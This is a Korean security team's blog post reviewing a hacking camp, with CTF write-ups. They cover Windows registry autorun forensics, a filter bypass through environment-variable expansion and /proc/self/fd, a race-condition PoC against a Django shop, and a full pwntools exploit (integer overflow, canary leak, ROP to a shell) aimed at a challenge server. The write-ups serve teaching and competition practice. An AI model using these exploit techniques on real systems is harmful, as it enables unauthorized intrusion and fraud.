




# 들어가며

안녕하세요! sstf write-up에 이어 해킹캠프 리뷰 글로 돌아왔습니다. 

지난 달 8월 26, 27일 주말 동안 해키보이즈 팀원 syru, pwndorei와 함께 27회 해킹캠프에 참여했습니다.

다양한 분야에서 활동하는 보안인들의 발표를 듣고, 해킹캠프에서 준비해주신 CTF도 즐겁게 참여했는습니다. 팀을 나누어 CTF도 진행했는데, 아쉽게도 서로 다른 팀으로 나뉘어 같이 풀진 못했지만 각자의 팀에서 즐겁게 문제를 풀었다고 합니다. 후기와 함께 Write-Up를 정리해보았습니다!


# Review

## L0ch

얼마 전 해킹캠프 발표자 모집에 Hyper-V 관련 연구를 주제로 제출한 제 아젠다가 선정되어 발표만 해야지 생각했었습니다 ㅋㅋㅋ

그런데 팀원들과 동아리 후배들이 다들 참여한다길래 취준에 한창인 때지만 이런 기회를 놓칠 수 없어 참가자로도 참여하게 되었네요. 덕분에 ~~이제는 가물가물한..~~  고등학생 시절 수학여행 기분도 느낄 수 있었고, 해킹을 처음 시작하는 새내기 분들부터 엄청난 실력자 분들까지 여러 사람들을 만나 오랜만에 자극을 받는 계기가 된 좋은 경험이었습니다! 

## syru

발표자로 지원했지만, 요번에도 실패하였습니다. 나중에 발표 라인업을 보니 제가 양보해야 했던 국내외로 인정받는 화려한 보안인 들로 구성되어 있었고 우리 팀장의 발표도 들을 겸 참여해보았습니다.

오자마자 놀랐던 것은 정말 어린 친구들이 일찍부터 보안의 관심이 많더라고요. 저는 중학교 나이 때 친구들이랑 유x왕카드를 하며 지냈던 것 같은데 여러 대회도 나가고 혼자 보안 연구도 진행했다는 것을 듣고 대단하다고 느꼈습니다.

아쉽게도 상대적으로 나이를 많이 먹은 제가 오기엔 한번이 적당한 것 같고 이제 막 보안을 시작하는 혹은 동아리에서 보안에 관심을 가지고 더 많은 길을 걷고 싶어 하는 후배들에게 추천해주려고 합니다. 동아리 내부CTF에 상품으로 걸까도 생각 중이고요.

좋은 발표 잘 들었고 28회에는 발표자로 참가하길 기대해보면서 보안 연구를 이어 나가 보겠습니다.

## pwndorei

원래는 발표자로 지원했지만 아쉽게도 떨어지면서 다음 해킹캠프에 발표자로 지원할 때 해킹캠프의 분위기나 진행 방식을 알면 좋을 것 같고 다른 발표자분들의 주제가 너무 매력적이어서 참가자로 다시 지원하여 참가하게 되었습니다! 

생각보다 발표자와 참여자 평균 연령이 낮아서 놀랐고 어린 나이에 하고 싶은 분야에 몰두하는 모습이 정말 멋졌습니다. 중고등학교의 학업과 해킹 공부를 병행하면서 이런 행사에 참여하는 열정은 저도 본받아야 할 것 같더군요. 양질의 발표들을 통해 다양한 분야의 지식들을 얻었으니 다음 해킹캠프에서 받은 만큼 돌려드릴 수 있도록 노력하겠습니다.


# Write-Up

### REGISTRIP - L0ch



포렌식 문제로, Description을 보면 키워드가 보입니다. 이 문제의 키워드는 automatically run 이 되겠네요.

그럼 제공된 파일을 보겠습니다.


Windows 레지스트리 하이브 파일임을 알 수 있습니다. 우리가 보통 아는 레지스트리는 regedit 편집기로 보는 트리가 익숙한데요, 레지스트리 분석 툴 REGA인 사용해 해당 파일들을 익숙한 트리 포맷으로 볼 수 있습니다. 


이제야 좀 분석할 맛이 나네요!

Windows Registry + Automatically Run 키워드를 생각해보면, 문제 컨셉은 악성코드에서 자주 악용되는 auto run 관련 레지스트리 키인 것을 생각해 볼 수 있습니다. 해당 레지스트리 키들을 살펴보면 단서가 있을 것 같네요.

Auto Run과 관련된 Windows 레지스트리 키는 우선 이정도로 생각해 볼 수 있습니다.

1. `\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
2. `\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`
3. `\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

해당 키들의 value를 살펴보면 수상한 값들이 보입니다.


`\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 

1 : 7cf7a9d2d0


`\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`

2 : ac21fb716b


`\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

3 : 1e032c79c4

```
Here's the hint for the last fragment. 
"Every time I run Notepad, a strange file runs with it..."
```

세 번째 value Data에 추가 힌트가 있습니다.

Notepad를 실행할 때마다 이상한 파일이 같이 실행된다고 하는데, 이것이 마지막 fragment인 것 같습니다.

레지스트리 키 중 바이너리 실행 옵션 관련  `Image File Execution Options`이 있습니다.


`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe`

위 레지스트리 키에 마지막 fragment가 있었습니다.

```
Image File Execution Options
해당 서브 키에 실행가능 이미지 및 프로세스가 존재 시, Debugger 값을 참조해 해당 이미지를 먼저 실행.
디버깅을 위해 존재하나 어떤 이미지가 실행되는지 검증할 수 없어 악성코드 실행 트리거로 악용되기도 함
```

base64 인코딩 되어 있으니 디코딩해주면 마지막 fragment가 나옵니다.

4 : 0d1e872378

1~4의 Fragment 이어붙이면 Flag를 획득할 수 있습니다.

```
HCAMP{7cf7a9d2d0ac21fb716b1e032c79c40d1e872378}
```

1 solve로 끝난 문제라서 CTF 종료 후 간단하게 풀이 방법을 발표하기도 했는데 그래도 쉬운 편에 속하는 문제였던 것 같습니다. ~~Windows Heap 공부하면서 레지스트리 들쑤신 기억이 새록새록~~ 

CTF가 오랜만이라 걱정했는데 좋은 팀원분들을 만나 1등까지 했네요. 저도 1인분은 해서 다행입니다 ㅎㅎ 

## **README - syru**

python의 함수인 `expandvars`와 리눅스의 proc file system을 활용하는 문제입니다. 문제 서버를 구축하는 데 사용된 파일이 제공되어 더 수월하게 풀 수 있었습니다.

우선 아래 Dockerfile을 보면 `/flag` 위치에 모두가 읽기 가능한 상태로 flag 가 저장되어 있으며 `CONFIG=/proc`이라는 환경변수가 등록되어있는 점을 눈여겨 볼 수 있습니다.

```shell
FROM python:3.10-slim-buster

ENV DEBIAN_FRONTEND noninteractive

RUN apt-get update && apt-get install -yqq socat
RUN groupadd -r ctf && useradd -r -g ctf ctf

RUN echo "flag{fake}" > /flag
RUN chmod 444 /flag

USER ctf
WORKDIR /app
ADD server.py .

ENV CONFIG="/proc"

CMD socat TCP-L:9999,fork,reuseaddr EXEC:"python server.py",pty,ctty,stderr,echo=0

```

아래 server.py도 살펴봅시다.

우선 main이 되는 부분을 보면 flag 파일을 열고 **닫지 않았으며** 사용자의 입력을 `filtering`함수를 실행하여 필터링을 진행한 뒤 `os.path.expandvars` 함수를 통해 최종 file path를 만들고 해당 path를 읽기모드로 열어서 내용을 출력하면서 끝납니다.

이제 중요한 filtering 함수를 살펴봅시다.

```python
def filtering(filename):
    FILTER = ['flag', 'etc', 'home', '~/', '/~', 'dev', 'proc', 'passwd', 'group', 'run', 'usr', 'var', 'opt', '..', './']
    for i in FILTER:
        if i in filename:
            print('Invalid filename')
            sys.exit(-1)

```

문제의 filtering 함수는 lib을 제외한 리눅스의 기본 디렉터리와 flag 문자열을 포함하고만 있으면 `sys.exit(-1)`을 통해 비정상 종료시킵니다. `FILTER` 리스트에 걸리지 않고 파일을 읽으려면 어떻게 해야 할까요? 

앞서 Dockerfile에서 봐둔 환경변수를 이용해야 합니다. linux에서 proc file system은 운영체제의 각종 정보를 유저모드에서 접근할 수 있도록 도와주는 가상의 파일 시스템입니다. 물론 프로세스에 대한 정보도 존재하며 이는 `/proc/{pid}` 경로에 위치합니다.

저희가 pid를 알아낼 수 없는데 무작정 bruteforce를 해야 할까요? 물론 프로세스가 몇 개 동작하지 않는 간단한 서비스라 가능은 했겠지만, 더 편하고 확실한 방법이 있습니다. 바로 현재 실행 중인 프로세스의 정보가 존재하는 `/proc/self`를 이용하는 것입니다. 프로세스의 정보가 저장되는 곳은 확인했고 flag파일은 어떻게 읽어야 할까요? 

저희가 프로세스 내에서 파일에 접근할 때 운영체제는 file descriptor라는 정수 값을 할당해주고 이 값을 통해 open등의 syscall에서 해당 파일에 접근합니다.

이제 저희는 `/proc/{pid}/fd/{fd_value:int}` 경로에 존재하는 심볼릭 링크를 통해 python process에서 열려있는 flag에 접근하면 됩니다.

flag파일의 fd값은 주어진 파일을 이용해 같은 환경을 구성 후 lsof 명령어를 통해 확인하거나 해당 문제에서는 파일이 많이 열리지 않으므로 2 이상의 값으로 bruteforce를 해도 됩니다.

- `lsof` 프로그램을 통해 확인하는 법
    1. 주어진 Dockerfile을 빌드 후 실행
       
        `docker build -t readme-hc .`
        
        `docker run -itd -p 9999:9999 readme-hc`
        
    2. netcat을 통해 접속 후 ps, grep을 통해 pid 확인
       
        `ps -ef | grep python`
        
    3. `lsof -p {pid}`를 통해 /flag의 fd 확인



이제 마무리입니다.



위 API 문서를 보면 `os.path.expandvars`는 환경변수에 `key=value`가 존재한다면 `$key/path`와 같은 path string을 `value/path`로 바꿔주는 것을 알 수 있습니다.

앞서 Dockerfile을 분석할 때 확인했던 `CONFIG=/proc`을 활용할 수 있습니다. `$CONFIG/self/fd/6`를 입력하여 flag를 읽으면 됩니다.



## **flag shop - syru**

사실 저는 HCAMP CTF 정규 시간의 대부분을 이 문제에 쏟았습니다. 앞선 sstf에서 django 1day를 활용하는 비슷한 유형의 [문제](https://hackyboiz.github.io/2023/09/01/syru/sstf-web-libreria/)를 풀어봐서 꼭 풀고 싶었습니다.

아쉽게 지금은 문제 서버도 닫혀서 존재했던 취약점과 제가 그 취약점을 활용해 푼 방법만 간단히 소개해드리겠습니다.

flag shop은 flag 그리고 여러 취약점을 파는 django framework로 만들어진 service입니다. (~~크롬 취약점이 싸더군요. 진짜 줬으면 crbug에 제보할 뻔…~~)

취약점을 사기만 할 뿐 아니라 샀던 취약점을 팔 수 있는데요. 이 사고파는 과정에서 race condition 취약점이 존재하였습니다.

```python
class OrderAPIView(APIView):
    permission_classes = []

    def get(self, request, product_id=None, order_id=None):
        ...
        # user validation
        balance = request.user.balance
        if balance < product.price:
            return fail("Insufficient balance")

        order = OrderModel.objects.create(
            user=request.user,
            product=product,
            email=email,
        )

        validator = EmailValidator()
        try:
            validator(email)
        except ValidationError:
            order.email = None
            order.save()

        request.user.balance -= product.price
        request.user.save()

        return success(OrderSerializer(order).data)

class Sell(APIView):
    def get(self, request, order_id=None):
        try:
            order = OrderModel.objects.get(id=order_id)
        except OrderModel.DoesNotExist:
            return fail("Order not found")

        if order.user != request.user:
            return fail("Unauthorized")

        request.user.balance += order.product.price
        request.user.save()

        order.delete()

        return success({})

```

평범하게 사고파는 것 같지만 이 가게는 상대방을 신뢰하여 팔 때는 물건을 먼저 주고 살 때는 돈을 먼저 줍니다. 저희는 이 부분을 이제부터 공략할 것입니다. 물론 팔 때는 보유 잔액을 검사하고 살 때는 주문이 있었던 물품인지를 검사하는 것이 안전해 보입니다. 과연 그럴까요?

이 서비스는 db로 sqlite3를 사용합니다.

```python
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.sqlite3',
        'NAME': BASE_DIR / 'db.sqlite3',
    }
}

```

sqlite3는 다수의 프로세스가 하나의 데이터베이스 파일에 읽고 쓰는 구조인데 무결성을 보장하기 위해 Lock이 존재합니다. 읽을 때는 shared lock이 걸리며 쓸 때는 exclusive lock이 걸리는데 exclusive lock은 하나만 허용됩니다. 그래서 해당 서비스로 동시에 들어온 구매 및 판매 요청은 조금의 delay를 두고 처리되게 됩니다.

사용자가 구매한 취약점을 팔아서 돈을 얻고 가게에서 사용자의 보유 물품을 없애는 것을 처리하기 전에 얻은 돈으로 물건을 계속 사면 어떻게 될까요? 물건을 살 때 보유한 돈이 차감되는 시점은 보유 물품을 없애는 것이 처리된 이후입니다. 하지만 그전에 이루어진 n번의 구매요청에서 잔액 검사를 통과하여 물품 먼저 받는다면 m개의 물품을 획득할 수 있습니다. (0<m<n)

이 m개의 물품을 팔아 돈을 많이 얻어서 flag를 사면 됩니다.

```python
#PoC
for idx in range(init_idx, init_idx+20, 1):
    t = threading.Thread(target=sell, args=(idx,))
    t.start()
    t.join()
    t1 = threading.Thread(target=buy , args = ())
    t2 = threading.Thread(target=buy , args = ())
    t1.start()
    t2.start()
    t1.join()
    t2.join()

for idx in range(init_idx, init_idx+40, 1):
    sell(idx)
buy_flag()
get_flag()

```

CTF가 끝나고 출제자의 풀이를 통해 이 문제가 해당 버전 EmailValidator에 존재하였던 redos 취약점을 통해 race condition을 조금 더 편하게 하는 것을 염두하고 냈다는 점을 알게 되었는데요. 저는 해당 버전에 존재하였던 ORM 처리에서 sqli 취약점을 활용하는 것에 대부분 시간을 할애하여 결국 정규시간 내에는 풀지 못했습니다.

(~~출제자가 아래와 같이 함정을 파두었거든요~~)

```python
class VerySuspiciousView(View):
    def get(self, request):
        field = request.GET.get("field", "")
        value = request.GET.get("value", "")

        len(
            ProductModel.objects.annotate(**{field: Value(value)})
        )

        return HttpResponse("OK")

```

CCE에서도 그렇고 race condition에 대해서 조금 더 생각해보게 된 문제였습니다.

## Horcrux2 - pwndorei

### Analysis

이 문제는 `main`함수에서 호출된 `DrinkPotion`함수에서 Integer Overflow가 발생하고 이를 통해 `DrinkPotion`에서 호출된 `BreakHorcrux`에서 Stack Buffer Overflow가 발생합니다. Stack BOF가 발생해도 카나리가 적용되어 있기 때문에 이를 우회할 필요가 있고 PIE가 적용되어 있지 않은 점, Partial RELRO인 점을 통해 ROP로 GOT overwrite를 해서 익스플로잇 할 수 있습니다.

`DrinkPotion`함수를 먼저 보자면 아래와 같습니다.

```c
__int64 DrinkPotion()
{
  __int64 result; // rax
  int amount; // [rsp+0h] [rbp-10h] BYREF
  int v2; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v2 = -1;
  printf("How much will you drink? >>> ");
  __isoc99_scanf("%d", &amount);
  if ( amount <= 40 )
  {
    v2 += amount;                               
    if ( (v2 & 0x80000000) == 0 )               // no negative number
      BreakHorcrux(v2);
    else
      puts("You're out of HP. You're dead.");
    result = 0LL;
  }
  else
  {
    puts("You drank too much. You're poisoned to death.");
    result = 0LL;
  }
  return result;
}
```

`amount`에 `scanf`로 정수 데이터를 입력 받고 `BreakHorcrux`에 전달될 인자인 `v2`는 -1로 초기화되어 있습니다. `amount`가 40보다 크지 않으면 if 문의 조건을 만족하여 `v2`에 `amount`를 더하고 `v2`가 음수가 아니면 `BreakHorcrux` 함수를 호출합니다. 여기서 amount를 `%d`로 입력 받기 때문에 음수를 입력할 수 있고 int 자료형의 최솟값을 입력하면 -1로 초기화된 `v2`와 더하면서 Integer Overflow가 발생해 `v2`는 int 자료형의 최댓값이 됩니다.

이후 `BreakHorcrux`를 보면 아래와 같습니다

```c
ssize_t __fastcall BreakHorcrux(int potion_cnt)
{
  __int64 buf[5]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 canary; // [rsp+38h] [rbp-8h]

  canary = __readfsqword(0x28u);
  buf[0] = 0LL;
  buf[1] = 0LL;
  buf[2] = 0LL;
  buf[3] = 0LL;
  buf[4] = 0LL;
  write(1, "First Chance: ", 0xEuLL);
  read(0, buf, potion_cnt);
  printf("%s is not a password.\n", (const char *)buf);
  write(1, "Second Chance: ", 0xFuLL);
  return read(0, buf, potion_cnt);
}
```

`DrinkPotion`의 Integer Overflow를 통해 `potion_cnt`에 int 최댓값을 전달하면 크기가 40바이트인 `buf`에서 stack bof가 발생합니다. `read`함수로 `buf`에 `potion_cnt`만큼 총 두 번 입력을 받는데 첫 번째 입력은 `buf`를 문자열로 출력해줍니다. 따라서 첫 번째 입력에서 카나리의 첫 널 바이트를 다른 값으로 덮어 카나리를 알아내고 두 번째 입력에서 카나리가 포함된 ROP 페이로드를 삽입해 익스플로잇하는 것이 가능합니다

### Exploit

```python
from pwn import *

context.log_level = 'debug'

elf = ELF("./horcrux2")
libc = ELF("./libc-2.27.so")
#libc = elf.libc

#p = process("./horcrux2")
p = remote("15.165.100.234",32859)

int_overflow = -2147483648

p.sendlineafter(b">>", str(int_overflow).encode())

p.sendline(cyclic(40, n=8))

p.recvuntil(cyclic(40, n=8)+b'\n')

canary = u64(b'\x00'+p.recv(7))

print(hex(canary))

payload = cyclic(40, n=8) + p64(canary) + b"A"*8

#ROP
#gadgets
pop_rdi = p64(0x0000000000400ab3)
pop_rsi_r15 = p64(0x0000000000400ab1)
pop_rdx = p64(0x00000000004008af)
ret = p64(0x0000000000400696)

payload += pop_rdi + p64(1) + pop_rsi_r15 + p64(elf.got['write']) + p64(0) + pop_rdx + p64(8) + p64(elf.plt['write']) # write(1, write@got, 8)
payload += pop_rdi + p64(0) + pop_rsi_r15 + p64(elf.got['write']) + p64(0) + pop_rdx + p64(8) + p64(elf.plt['read']) # read(0, write@got, 8)
payload += pop_rdi + p64(0) + pop_rsi_r15 + p64(elf.bss()) + p64(0) + pop_rdx + p64(8) + p64(elf.plt['read']) # read(0, bss, 8)
payload += pop_rdi + p64(elf.bss()) + ret + p64(elf.plt['write'])# system("/bin/sh")

p.recvuntil(b'Second Chance: ')
p.send(payload)

libc_base = u64(p.recv(8)) - libc.sym['write'] #write

p.send(p64(libc_base + libc.sym['system']))
p.send(b"/bin/sh\x00")

p.interactive()
```

# 마치며

세 명 모두 처음으로 참여하는 해킹캠프였는데, 첫 참여임에도 여러 프로그램에 적극적으로 참여할 수 있도록 배려해주신 노력들이 느껴져 즐겁게 참여할 수 있었습니다. 동아리원들이나 보안하는 후배들에게 해킹캠프에 꼭 참여해보라고 적극적으로 추천하고 싶네요 :)

좋은 교류의 자리를 마련해주신 PoC Security, Demon팀, SISS, 후원사 및 발표자 분들에게 감사의 말씀을 드립니다! 

